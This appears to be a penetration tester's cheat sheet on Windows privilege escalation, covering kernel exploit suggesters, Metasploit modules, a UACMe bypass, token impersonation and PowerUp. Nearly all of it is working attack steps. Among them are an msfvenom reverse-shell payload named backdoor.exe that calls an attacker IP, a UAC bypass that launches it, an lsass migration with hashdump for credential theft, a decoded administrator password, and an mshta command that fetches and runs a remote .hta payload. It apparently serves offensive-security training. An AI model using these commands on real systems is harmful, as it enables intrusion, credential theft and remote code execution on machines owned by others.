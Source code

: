 # Kernel Exploit:

- https://github.com/AonCyberLabs/Windows-Exploit-Suggester : missing patches comparison
- ./windows-exploit-suggester.py --update - generates xls to use in nxt step
- ./windows-exploit-suggester.py --database <xlsfile> --systeminfo <txt_file_with_systeminfo_output_from_win_shell>
- google exploit, may need to upload .exe to target sys, run it to get elevated shell
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135

# Metasploit Modules:

- post/multi/recon/local_exploit_suggester : suggest exploits
	- eg. exploit/windows/local/ms16_014_wmi_recv_notif

# UACBypass - UACMe 
<mtlm>
	<t1>- Commands:</t1>
<p>:CTRL + C
cd C:\\Users\\admin\\AppData\\Local\\Temp
upload /root/Desktop/tools/UACME/Akagi64.exe .
upload /root/backdoor.exe .
ls
</p>
</mtlm>
- need local admin account access
- migrate process to explorer.exe 
- pgrep explorer.exe OR ps -S explorer.exe
- https://github.com/hfiref0x/UACME
- using meterpreter, upload Akagi64.exe and upload playload generated with msfvenom to target system
	- use exploit/multi/handler to start a listener
	- Akagi64.exe 23 <payload_path> : run on target computer
	- Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
	- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
- once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
- migrate to lsass.exe and run hashdump

# Impersonate

![meterpreter getuid](./images/privesc-01.png)

![meterpreter access denied to read file](./images/privesc-02.png)  ￼￼

- load incognito
- list_tokens -u : make note of available tokens (eg. delegation token)
- impersonate_token <token_name>

![meterpreter access denied to read file](./images/privesc-03.png)  ￼￼	   ￼

# PowerUp

- https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- powershell -ep bypass (PowerShell execution policy bypass)
	- . .\PowerUp.ps1
	- Invoke-PrivescAudit - it will find misconfig files/leftover files like Unattend.xml
	- Get password from the Unattend.xml file, decode base64.
	- $password='QWRtaW5AMTIz'
  	  $password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	  echo $password
	- runas.exe /user:administrator cmd
- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta

